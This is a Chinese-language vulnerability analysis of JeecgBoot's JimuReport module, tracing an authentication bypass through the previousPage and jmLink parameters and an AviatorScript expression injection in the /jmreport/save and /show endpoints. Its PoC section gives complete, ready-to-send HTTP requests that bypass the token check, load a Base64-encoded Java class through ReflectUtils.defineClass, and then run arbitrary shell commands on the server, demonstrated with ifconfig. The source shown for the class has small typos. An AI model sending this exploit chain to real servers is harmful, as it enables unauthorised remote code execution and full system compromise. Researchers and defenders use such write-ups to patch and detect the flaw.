

# Jeecgboot AviatorScript RCE

## 漏洞分析

### Token 校验绕过

根据PoC，漏洞路由为 /jeecg-boot/jmreport/save 和 show

Jeecg-Boot的路由配置采用注解形式，因此通过搜索定位到类 `org.jeecg.modules.jmreport.desreport.a.a` 

``` java
@RestController("designReportController")
@RequestMapping({ "/jmreport" })
public class a {
    private static final Logger a = LoggerFactory.getLogger(a.class);

    ...
    @PostMapping({ "/show" })
    public Result<?> a(@RequestBody JSONObject var1, HttpServletRequest var2) {
        String var3 = var1.getString("id");
        a.debug("--------进入show方法-----------, id = " + var3);
        try {
            String var4 = var1.getString("params");
            return this.jmReportDesignService.show(var3, var4, (List) null);
        } catch (Exception var5) {
            a.error(var5.getMessage(), var5);
            return Result.error(var5.getMessage());
        }
    }

    @PostMapping({ "/save" })
    public Result<?> b(HttpServletRequest var1, @RequestBody JSONObject var2) {
        try {
            JimuReport var3 = this.jmReportDesignService.saveReport(var2, var1);
            return Result.OK(var3);
        } catch (Exception var4) {
            a.error(var4.getMessage(), var4);
            return Result.error("保存失败！");
        }
    }
    ...
}
```
  

简单发包尝试接口功能，报错 ”Token 校验失败，无权限访问！“


  

在项目里直接搜索字符串没有找到校验Token的位置，查阅 jmreport 技术文档发现其配置了拦截器 `org.jeecg.modules.jmreport.config.firewall.interceptor.JimureportTokenInterceptor`，Spring Interceptor  类似于 Servlet Filter ，会在 Controller 前处理请求，实现日志记录或权限检查等功能

JimureportTokenInterceptor 核心判断逻辑如下（省略部分难以绕过的分支，以下为本PoC绕过校验的token检测代码）

  
```java title="JimureportTokenInterceptor"

public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
    ...
    String var16 = request.getParameter("previousPage");
    if (j.d(var16)) { // 校验 1：检测 perviousPage 非空串
        if (this.jimuReportShareService.isShareingToken(var4, request)) { // 校验 2
            return true;
        } else {
            log.error("分享链接失效或分享token不匹配(" + request.getMethod() + ")：" + var4);
            this.backError(response, "分享链接失效或分享token不匹配，禁止钻取!", var5);
            return false;
        }
    } else {
        log.error("Token校验失败！请求无权限(" + request.getMethod() + ")：" + var4);
        this.backError(response, "Token校验失败，无权限访问！", var5);
        return false;
    }
    ...
}
```

校验二代码：

```java title="org.jeecg.modules.jmreport.desreport.service.a.f"
public boolean isShareingToken(String requestPath, HttpServletRequest request) { // 校验 2
    ...
    String var5 = request.getParameter("jmLink"); // 从请求中获取 jmLink 参数
    if (j.d(var5)) { // jmLink 非空
        try {
            byte[] var6 = Base64Utils.decodeFromString(var5); // Base64 解码
            String var7 = new String(var6);
            String[] var8 = var7.split("\\|\\|"); // 以 "||" 切分字符串
            if (ArrayUtils.isNotEmpty(var8) && var8.length == 2) // 切分后非空且包括两个子串
            {
                var3 = var8[0];
                var4 = var8[1];
            }
        } catch (IllegalArgumentException var9) {
            a.error("解密失败：" + var9.getMessage());
            a.error(var9.getMessage(), var9);
            return false;
        }
    }
    ...
}
```

使拦截器返回结果为真的要求总结如下：

1.  为了满足校验 1，需要在请求中带上 previousPage 参数
2.  为了满足校验 2，需要 jmLink 参数且其 Base64 解码后形式为 “a||b”，其中 a,b 均为不含 “||” 的任意字符串

以上两个参数均通过 getParameter() 获取，由我们的请求传入因此完全可控，只要满足以上两个条件拦截器就会 return true 继续后续的处理。

例如带上参数 previousPage=xxx&jmLink=YWFhfHxiYmI= 后，成功访问接口


### save 接口

save 调用了 `org.jeecg.modules.jmreport.desreport.service.a.e#saveReport` 处理请求

```java 
public JimuReport saveReport(JSONObject json, HttpServletRequest request) {
    String var3 = this.jimuTokenClient.getUsername(request);
    a.debug("============EXCEL JSON数据正在保存==========");
    String var4 = json.getString("excel_config_id");
    JimuReport var5 = new JimuReport();
    if (org.jeecg.modules.jmreport.common.util.j.c(var4)) { // excel_config_id 为空
        var5.setId(String.valueOf(SnowflakeIdWorker.generateId()));
        var5.setIsRefresh(false);
        return var5;
    } else {
        var5 = this.reportDao.get(var4);
        //// ...
        SimpleDateFormat var9 = new SimpleDateFormat("yyyyMMddHHmmss");
        String var10 = var9.format(new Date());
        if (var5 == null) {
            JimuReport var11 = new JimuReport();
            // ...
            var11.setJsonStrJson(json); // 存储传入的 json
            // ...
            json.remove("excel_config_id");
            this.reportDao.insert(var11);
            var5 = new JimuReport();
            var5.setIsRefresh(true);
        } else {
            // ...
            var5.setJsonStrJson(json);
            // ...
            a.info("保存设计，Saas模式: " + this.jmBaseConfig.getSaasMode() + " ,登录Token: " + this.jimuTokenClient.getToken());
            if ("created".equals(this.jmBaseConfig.getSaasMode())
                    && org.jeecg.modules.jmreport.common.util.j.d(this.jimuTokenClient.getToken())) {
                String var13 = this.jimuTokenClient.getUsername(request);
                if (!var5.getCreateBy().equals(var13)) {
                    throw new JimuReportException("保存失败！");
                }
                this.reportDao.update(var5);
            } else {
                this.reportDao.update(var5);
            }
            var5.setIsRefresh(false);
        }
        return var5;
    }
}
```
  

根据注释易知，该函数实现将传入的 Excel JSON 对象存储到 Dao 中，逻辑较为清晰简单

### show 接口

show `调用了 org.jeecg.modules.jmreport.desreport.service.a.e#show` ，也是本漏洞利用的核心

```java
public Result<JimuReport> show(String id, String params, List<String> dbCode) {
    JSONObject var4 = new JSONObject();
    boolean var5 = false;
    if (org.jeecg.modules.jmreport.common.util.j.d(params)) {
        var4 = JSON.parseObject(params);
        var5 = "1".equals(var4.getString("onlyPageData"));
    }

    a.debug("============EXCEL JSON数据查询==========");
    JimuReport var6 = this.reportDao.get(id);
    JSONObject var7 = var6.getJsonStrJson(); // 根据传入 id 读取数据库中存储的 json
    a.debug("==== begin 初始，配置的json字符串===" + var6.getJsonStrJson());
    var7 = this.c(var7); // 处理图片链接
    this.a(var4, var7); // 处理 jmViewFirstLoad 属性
    Map var8 = this.getDataById(var6, var4, var5, dbCode); // 在数据库中查询 params
    this.b(var7, var8); // 处理 completeBlankRowList （空行）
    var6.setDataList(var8); // 将 params 查询结果作为“datalist”对象附加入json
    a.debug("==== end 处理后，配置的json字符串===" + var6.getJsonStrJson());
    var7 = ReportUtil.a(var8, var7); // 处理条形码、二维码等
    JSONObject var9 = (JSONObject) var8.get("replaceParams");
    var7 = ReportUtil.a(var7, var9); // 将 params 查询结果替换入 rows/cells/text 中
    var6.setJsonStrJson(var7);
    RenderInfo var10 = new RenderInfo(var6);
    var10.setStrategyName(org.jeecg.modules.jmreport.desreport.render.a.a.b.class.getSimpleName());
    JimuReport var11 = this.a(var10); // renderHandler
    JSONObject var12 = var11.getJsonStrJson();
    Result var13 = Result.OK();
    String var14 = ExpressUtil.a(var12); // 漏洞触发点
    if (org.jeecg.modules.jmreport.common.util.j.d(var14)) {
        var13.setMessage(var14);
    }

    this.d(var12);
    this.b(var12);
    var11.setJsonStrJson(var12);
    var13.setResult(var11);
    c.remove();
    return var13;
}
```


经过一系列处理后，在 28 行调用了 ExpressUtil#a ，即本漏洞表达式执行的触发点，跟入查看代码：


```java title="org.jeecg.modules.jmreport.desreport.express.ExpressUtil"
public static String a(JSONObject var0) {
    a var1 = new a(var0);
    var0.put("rows", var1.getRows());
    List var2 = var1.getErrorCellList();
    if (var2 != null && var2.size() > 0) {
        String var3 = "表达式渲染错误的单元格：" + String.join(",", var2);
        return var3;
    } else {
        return "";
    }
}
```

由注释可以发现，该方法功能为表达式渲染，继续跟入 new a(var0)

```java title="org.jeecg.modules.jmreport.desreport.express.a"

public class a {
    private static final Logger b = LoggerFactory.getLogger(a.class);
    public static final String a = "([A-Z]+)([0-9]+)";
    private JSONObject c;
    private JSONArray d;
    private Map<String, b> e;
    private Map<String, Object> f;
    private Map<String, Integer> g;
    private Set<String> h;
    private List<String> i;

    public a(JSONObject var1) {
        this.c = var1.getJSONObject("rows");
        this.d = var1.getJSONArray("styles");
        this.e = new LinkedHashMap(5);
        this.f = new HashMap(5);
        this.g = new HashMap(5);
        this.h = new HashSet();
        this.i = new ArrayList(5);
        // 对 rows/cells/text 中形如“varname = exp”的表达式预处理，键值对存入 this.e 中
        // 并将其各属性置入 org.jeecg.modules.jmreport.desreport.express.b 类中，便于后续计算
        this.c();
        this.a(); // 求值
        this.b();
    }
    ...
}
```
class a 构造函数在进行一系列数据的预处理后，跟入 this.a（）进行求值


```java title="org.jeecg.modules.jmreport.desreport.express.a"
public void a() {
    Iterator var1 = this.e.keySet().iterator();
    while (var1.hasNext()) { // 遍历进行求值
        String var2 = (String) var1.next();
        this.a(this.e, var2);
    }
}
```
  
a() 方法遍历 LinkedHashMap，调用 `this.a(Map<String, b> var1, String var2)`  

```java title="org.jeecg.modules.jmreport.desreport.express.a"
private void a(Map<String, b> var1, String var2) {
    b var3 = (b) var1.get(var2);
    if (!var3.d()) {
        ...
        ExpressUtil.a(var3);
        if (var3.f()) {
            this.a(var3);
        }
    }
}
```

经过一系列处理后，调用 `ExpressUtil.a()` 进行最终的求值过程


```java title="org.jeecg.modules.jmreport.desreport.express.ExpressUtil"
public static void a(b var0) {
    String var1 = var0.getExpression();
    Map var2 = var0.getEnv();
    Expression var3 = null;
    String var5;
    String var6;
    if (var0.a()) {
        try {
            var3 = g.compileScript(var1, true); // g 为 AviatorEvaluatorInstance，此处编译脚本
        } catch (IOException var13) {
            var13.printStackTrace();
        }
    } else {
        var1 = d(var1);
        try {
            var3 = g.compile(var1, true); // Aviator 编译
        } catch (RuntimeException var14) {
            var5 = "Method code too large!";
            if (var5.equals(var14.getMessage())) {
                h.warn("表达式解析失败，原因：方法代码不能超过65536字节，请采用分页计算");
            }
            var6 = org.jeecg.modules.jmreport.common.util.j.d(var14.getCause()) ? var14.getCause().getMessage() : null;
            if (org.jeecg.modules.jmreport.common.util.j.d(var6) && var6.contains(var5)) {
                a(var0, var1);
            } else {
                var0.setError(true);
            }
        }
    }
    if (var3 != null) {
        ...
        Object var4 = null;
        try {
            var4 = var3.execute(var2); // Aviator 脚本执行
        } catch (Exception var12) {
            h.warn("执行表达式错误:: expression={}, env={}, error={}",
                    new Object[] { var1, var2.toString(), var12.getMessage() });
        }
        ...
    }
}
```

Aviator 在 5.0 版本以前叫 Aviator，定位是一个表达式引擎；  
在 5.0 版本改名为 AviatorScript，定位是高性能、轻量级、易于和 Java 交互的寄宿于 JVM 之上的脚本语言

AviatorScript存在表达式注入漏洞，详见参考资料


根据前面的分析可知 ，var2 的内容就是我们传入 json 的 row/cell/text，因此完全可控，我们可以通过 Aviator 脚本执行实现 RCE
  

## PoC 

第一次发送包调用 save 将构造的恶意类存入数据库中

```http
POST /jeecg-boot/jmreport/save?previousPage=xxx&jmLink=YWFhfHxiYmI= HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126"
language: zh-CN
knife4j-gateway-code: ROOT
Accept-Language: zh-CN
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: application/json
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: [http://localhost](http://localhost):8080/jeecg-boot/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 4292

{
    "excel_config_id": "c4ca4238a0b923820dcc509a6f758487",
    "rows": {
        "4": {
            "cells": {
                "4": {
                    "text": "=(use org.springframework.cglib.core.*;use org.springframework.util.*;ReflectUtils.defineClass('org.jeecg.RGVtb1Rlc3RK',Base64Utils.decodeFromString('yv66vgAAADQAnwoAJwBOCQBPAFAIAFEKAFIAUwcAVAoAVQBWCgBXAFgKAAUAWQcAWgoACQBbCABcCgBPAF0KAAUAXggAXwoABQBgCABhCABiCgAJAGMIAGQIAGUKAAkAZgcAZwoAFgBOBwBoBwBpCgBqAGsKABkAbAoAGABtCgAYAG4KABYAbwoATwBwCgAYAHEHAHIKACEAcwoAagB0CAB1CgAWAHYHAHcHAHgBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAGExvcmcvamVlY2cvUkdWdGIxUmxjM1JLOwEABG1haW4BABYoW0xqYXZhL2xhbmcvU3RyaW5nOylWAQAEYXJncwEAE1tMamF2YS9sYW5nL1N0cmluZzsBAAxSWGhsWTBOdlpHVXgBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEABGxpbmUBABJMamF2YS9sYW5nL1N0cmluZzsBAAZyZWFkZXIBABhMamF2YS9pby9CdWZmZXJlZFJlYWRlcjsBAAtlcnJvclJlYWRlcgEADWJhc2U2NENvbW1hbmQBAAdjb21tYW5kAQAOcHJvY2Vzc0J1aWxkZXIBABpMamF2YS9sYW5nL1Byb2Nlc3NCdWlsZGVyOwEAAm9zAQAHcHJvY2VzcwEAE0xqYXZhL2xhbmcvUHJvY2VzczsBAAZvdXRwdXQBABlMamF2YS9sYW5nL1N0cmluZ0J1aWxkZXI7AQANU3RhY2tNYXBUYWJsZQcAVAcAWgcAeQcAZwcAaAcAcgEACkV4Y2VwdGlvbnMHAHoBAApTb3VyY2VGaWxlAQARUkdWdGIxUmxjM1JLLmphdmEMACgAKQcAewwAfAB9AQAMSGVsbG8gV29ybGQhBwB+DAB/AIABABBqYXZhL2xhbmcvU3RyaW5nBwCBDACCAIUHAIYMAIcAiAwAKACJAQAYamF2YS9sYW5nL1Byb2Nlc3NCdWlsZGVyDAAoADABAAdvcy5uYW1lDACKADQMAIsAjAEAA3dpbgwAjQCOAQAHY21kLmV4ZQEAAi9jDAA7AI8BAAJzaAEAAi1jDACQAJEBABdqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcgEAFmphdmEvaW8vQnVmZmVyZWRSZWFkZXIBABlqYXZhL2lvL0lucHV0U3RyZWFtUmVhZGVyBwB5DACSAJMMACgAlAwAKACVDACWAIwMAJcAmAwAmQCMDACaACkBABNqYXZhL2xhbmcvVGhyb3dhYmxlDACbAJwMAJ0AkwEAB0VSUk9SOiAMAJ4AjAEAFm9yZy9qZWVjZy9SR1Z0YjFSbGMzUksBABBqYXZhL2xhbmcvT2JqZWN0AQARamF2YS9sYW5nL1Byb2Nlc3MBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAQamF2YS9sYW5nL1N5c3RlbQEAA291dAEAFUxqYXZhL2lvL1ByaW50U3RyZWFtOwEAE2phdmEvaW8vUHJpbnRTdHJlYW0BAAdwcmludGxuAQAVKExqYXZhL2xhbmcvU3RyaW5nOylWAQAQamF2YS91dGlsL0Jhc2U2NAEACmdldERlY29kZXIBAAdEZWNvZGVyAQAMSW5uZXJDbGFzc2VzAQAcKClMamF2YS91dGlsL0Jhc2U2NCREZWNvZGVyOwEAGGphdmEvdXRpbC9CYXNlNjQkRGVjb2RlcgEABmRlY29kZQEAFihMamF2YS9sYW5nL1N0cmluZzspW0IBAAUoW0IpVgEAC2dldFByb3BlcnR5AQALdG9Mb3dlckNhc2UBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaAQAvKFtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzQnVpbGRlcjsBAAVzdGFydAEAFSgpTGphdmEvbGFuZy9Qcm9jZXNzOwEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYBABMoTGphdmEvaW8vUmVhZGVyOylWAQAIcmVhZExpbmUBAAZhcHBlbmQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcjsBAA1saW5lU2VwYXJhdG9yAQAFY2xvc2UBAA1hZGRTdXBwcmVzc2VkAQAYKExqYXZhL2xhbmcvVGhyb3dhYmxlOylWAQAOZ2V0RXJyb3JTdHJlYW0BAAh0b1N0cmluZwAhACYAJwAAAAAAAwABACgAKQABACoAAAAvAAEAAQAAAAUqtwABsQAAAAIAKwAAAAYAAQAAAAgALAAAAAwAAQAAAAUALQAuAAAACQAvADAAAQAqAAAANwACAAEAAAAJsgACEgO2AASxAAAAAgArAAAACgACAAAACgAIAAsALAAAAAwAAQAAAAkAMQAyAAAACQAzADQAAgAqAAADjwAFAA0AAAGOuwAFWbgABiq2AAe3AAhMuwAJWQO9AAW3AApNEgu4AAy2AA1OLRIOtgAPmQAdLAa9AAVZAxIQU1kEEhFTWQUrU7YAElenABosBr0ABVkDEhNTWQQSFFNZBStTtgASVyy2ABU6BLsAFlm3ABc6BbsAGFm7ABlZGQS2ABq3ABu3ABw6BgE6BxkGtgAdWToIxgAUGQUZCLYAHrgAH7YAHlen/+cZBsYAVRkHxgAXGQa2ACCnAEg6CBkHGQi2ACKnADwZBrYAIKcANDoIGQg6BxkIvzoJGQbGACEZB8YAFxkGtgAgpwAUOgoZBxkKtgAipwAIGQa2ACAZCb+7ABhZuwAZWRkEtgAjtwAbtwAcOgYBOgcZBrYAHVk6CMYAGRkFEiS2AB4ZCLYAHrgAH7YAHlen/+IZBsYAVRkHxgAXGQa2ACCnAEg6CBkHGQi2ACKnADwZBrYAIKcANDoIGQg6BxkIvzoLGQbGACEZB8YAFxkGtgAgpwAUOgwZBxkMtgAipwAIGQa2ACAZC78ZBbYAJbAACgCrALAAswAhAIUAoQDHACEAhQChANAAAADcAOEA5AAhAMcA0gDQAAABOwFAAUMAIQEQATEBVwAhARABMQFgAAABbAFxAXQAIQFXAWIBYAAAAAMAKwAAAFYAFQAAAA4ADwAQABsAEgAkABMALQAUAEcAFgBeABkAZAAaAG0AHACFAB4AkAAfAKEAIQDHABwA0AAhAPgAIwEQACUBGwAmATEAKAFXACMBYAAoAYgAKgAsAAAAZgAKAI0AFAA1ADYACACCAHYANwA4AAYBGAAZADUANgAIAQ0AewA5ADgABgAAAY4AOgA2AAAADwF/ADsANgABABsBcwA8AD0AAgAkAWoAPgA2AAMAZAEqAD8AQAAEAG0BIQBBAEIABQBDAAAA1wAW/gBHBwBEBwBFBwBEFv8AJgAIBwBEBwBEBwBFBwBEBwBGBwBHBwBIBwBJAAAbUQcASQtHBwBJSAcASf8AEwAKBwBEBwBEBwBFBwBEBwBGBwBHBwBIBwBJAAcASQABBwBJCwT/AAIABgcARAcARAcARQcARAcARgcARwAA/QAXBwBIBwBJIFEHAEkLRwcASUgHAEn/ABMADAcARAcARAcARQcARAcARgcARwcASAcASQAAAAcASQABBwBJCwT/AAIABgcARAcARAcARQcARAcARgcARwAAAEoAAAAEAAEASwACAEwAAAACAE0AhAAAAAoAAQBXAFUAgwAJ'),ClassLoader.getSystemClassLoader());)",
                    "style": 0
                }
            },
            "height": 25
        },
        "len": 96
    },
    "styles": [
        {
        "align": "center"
        }
    ],
    "cols": {
    }
}
```

其中 text base64字符串为以下类的字节码 encode，该类实现了通过 processBuild 执行输入的命令

```java
package org.jeecg;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.Util.Base64;

public class RGVtb1Rlc3RK {
    public static void main(String[] args) {
        System.out.println("Hello World!");
    }

    public static String RXhlY0NvZGUx(String base64Command) throws IOException {
        String command = new String(Base64.getDecoder().decode(base64Command));
        ProcessBuilder processBuilder = new ProcessBuilder();
        String os = System.getProperty("os.name").toLowerCase();
        if (os.contains("win")) {
            processBuilder.command("cmd.exe", "/c", command);
        } else {
            processBuilder.command("sh", "-c", command);
        }
        Process process = processBuilder.start();
        StringBuilder output = new StringBuilder();
        try (BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()))) {
            String line;
            while ((line = reader.readLine()) != null) {
                output.append(line).append(System.lineSeparator());
            }
        }
        try (BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()))) {
            String line;
            while ((line = errorReader.readLine()) != null) {
                output.appen("ERROR: ").append(line).append(System.lineSeparator());
            }
        }
        return output.toString();
    }
}
```

第一次发包结果

{loading="lazy"}
  
第二次发包，调用 show 进行上述类的注册

```http
POST /jeecg-boot/jmreport/show?previousPage=xxx&jmLink=YWFhfHxiYmI= HTTP/1.1
Host: localhost:8080
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://10.106.24.179:8081/jeecg-boot/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/json
Content-Length: 48

{
    "id": "c4ca4238a0b923820dcc509a6f758487"
}
```

第二次发包结果

{loading="lazy"}

  

第三次发包调用 save 将命令执行的语句注入，其中“aWZjb25maWc=”为命令的base64编码，此处为 ifconfig

```http
POST /jeecg-boot/jmreport/save?previousPage=xxx&jmLink=YWFhfHxiYmI= HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126"
language: zh-CN
knife4j-gateway-code: ROOT
Accept-Language: zh-CN
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: application/json
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: [http://localhost](http://localhost):8080/jeecg-boot/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 295

{
    "excel_config_id": "c4ca4238a0b923820dcc509a6f758487",
    "rows": {
        "4": {
            "cells": {
                "4": {
                    "text": "=(use org.jeecg.*;return RGVtb1Rlc3RK.RXhlY0NvZGUx(\"aWZjb25maWc=\");)",
                    "style": 0
                }
            },
            "height": 25
        },
        "len": 96
    },
    "styles": [
    {
        "align": "center"
    }
    ],
    "cols": {
    }
}
```

第三次发包结果如下


  

最后发送 show 请求执行命令，实现 RCE，回显在返回包的 JSON rows/cells/text 中


## 参考资料

- [jeecgboot 权限绕过+Aviator Script代码执行漏洞](https://ilikeoyt.github.io/2024/08/13/jeecgboot-%E6%9D%83%E9%99%90%E7%BB%95%E8%BF%87-AviatorScript%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/){:target="_blank"}
- [Github AviatorScript issue 421](https://github.com/killme2008/aviatorscript/issues/421){:target="_blank"}